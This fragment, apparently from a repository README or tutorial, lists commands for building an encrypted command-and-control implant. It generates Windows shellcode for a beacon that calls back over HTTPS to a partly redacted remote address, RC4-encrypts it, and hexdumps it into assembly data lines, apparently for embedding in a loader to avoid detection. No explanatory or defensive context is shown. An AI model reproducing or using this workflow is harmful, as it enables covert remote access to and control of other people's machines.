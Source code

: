 generate beacon --seconds 5 --jitter 3 --os windows -a amd64 --format shellcode -b https://172.x.x.x:443 --name httpsBeacon --save /tmp/https50.bin -G --skip-symbols
python rc4.py <key> <filename>  ---> creates https50.bin.enc
<hexdump -v -e '1/2 "dw 0%.4xh\n"' https50.bin.enc| tee out.txt>
